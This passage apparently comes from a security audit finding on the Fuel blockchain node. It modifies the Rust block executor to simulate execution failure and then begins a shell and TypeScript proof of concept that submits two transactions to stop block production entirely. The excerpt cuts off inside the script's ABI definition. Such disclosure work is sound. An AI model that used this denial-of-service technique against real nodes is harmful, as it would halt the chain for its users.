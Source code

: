 ```rust
                .write_transaction()
                .with_policy(ConflictPolicy::Overwrite);
            let tx_id = tx.id(&self.consensus_params.chain_id());
            let tx = self.execute_transaction(
                tx,
                &tx_id,
                &block.header,
                coinbase_contract_id,
                gas_price,
                execution_data,
                &mut tx_st_transaction,
                memory,
            )?;
            tx_st_transaction.commit()?;
            tx
        };

        block.transactions.push(tx);
        execution_data.tx_count = tx_count
            .checked_add(1)
            .ok_or(ExecutorError::TooManyTransactions)?;

        if block.transactions.len() > 2 { // [1]
            Err(ExecutorError::TooManyTransactions)? // [2]
        } // [3]

        Ok(())
    }
```
This will simulate execution failing.

After these modifications please run the fuel node with the `--poa-interval-period 5sec` parameter, ensuring an activated timer.

With the local node running, execute the following script which does the following:
* create and compile a typescript file `poc_halting.sh` containing the PoC
* run the typescript script which submits two transactions, causing block production to stop completely

In order to ensure a working PoC please ensure the following:
* have `tsc` installed in order to compile typescript
* have `node` installed in order to run the resulting `.js` file

`PoC`:
```sh
echo """
import { JsonAbi, Script, Provider, WalletUnlocked, Account, Predicate, Wallet, CoinQuantityLike, coinQuantityfy, EstimatedTxParams, BN, Coin, AbstractAddress, Address, Contract, ScriptTransactionRequest } from 'fuels';

const abi: JsonAbi = {
  'encoding': '1',
  'types': [
    {
      'typeId': 0,
      'type': '()',
      'components': [],
      'typeParameters': null
    }
  ],
  'functions': [
    {
      'inputs': [],
      'name': 'main',
      'output': {
```